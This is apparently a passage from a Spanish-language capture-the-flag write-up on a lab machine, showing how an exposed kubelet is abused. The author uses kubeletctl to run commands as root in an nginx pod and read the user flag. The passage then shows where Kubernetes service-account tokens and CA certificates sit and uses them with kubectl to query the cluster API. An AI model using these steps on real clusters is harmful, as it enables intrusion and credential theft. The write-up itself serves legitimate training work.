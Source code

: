 Aquí podemos ver los POD  en uso y los namespace del nodo.  Si nos fijamos podemos ver que hay un nodo que utiliza un namespace diferente al resto "default". Kubeletctl permite ejecutar comandos en pods. Si probamos a ejecutar comandos en el contenedor del POD "nginx" vemos que los comandos se ejecutan correctamente.

```bash
❯ kubeletctl exec "id" -s 10.10.11.133 -p 'nginx' -c nginx
uid=0(root) gid=0(root) groups=0(root)
```

La flag de usuario se encuentra dentro de /root.

```bash 
❯ kubeletctl exec "cat /root/user.txt" -s 10.10.11.133 -p 'nginx' -c nginx
4bed108ccc1fc161f94a9818eb5527f9
```

Ahora que tenemos acceso a uno de los contenedores podriamos buscar:

- ca.crt -> Es el certificado para verificar la comunicación de kubernetes.
- namespacce -> Indica el espacio de nombres actual.
- token -> Contiene el token de servicio del pod actual.

	Si conseguimos ca.crt y token podríamos autenticarnos en el cluster de kubernetes (puerto 8443)

En este caso los archivos se encuentran en esta ruta: 

```
-/run/secrets/kubernetes.io/serviceaccount
```

```bash
root@nginx:/run/secrets/kubernetes.io/serviceaccount# ls -la
ls -la
total 4
drwxrwxrwt 3 root root  140 Feb 16 19:38 .
drwxr-xr-x 3 root root 4096 Feb 16 17:12 ..
drwxr-xr-x 2 root root  100 Feb 16 19:38 ..2023_02_16_19_38_50.643472167
lrwxrwxrwx 1 root root   31 Feb 16 19:38 ..data -> ..2023_02_16_19_38_50.643472167
lrwxrwxrwx 1 root root   13 Feb 16 17:12 ca.crt -> ..data/ca.crt
lrwxrwxrwx 1 root root   16 Feb 16 17:12 namespace -> ..data/namespace
lrwxrwxrwx 1 root root   12 Feb 16 17:12 token -> ..data/token
root@nginx:/run/secrets/kubernetes.io/serviceaccount#

```

Pero también se podrian encontrar en: 

```
-   /var/run/secrets/kubernetes.io/serviceaccount
-   /secrets/kubernetes.io/serviceaccout
```

Si nos bajamos los archivos podemos ahora si podremos autenticarnos en el cluster y pedir información a la API de kubernetes.

```bash 
❯ kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$(cat token) get pod
NAME       READY   STATUS    RESTARTS   AGE
nginx      1/1     Running   0          163m
```
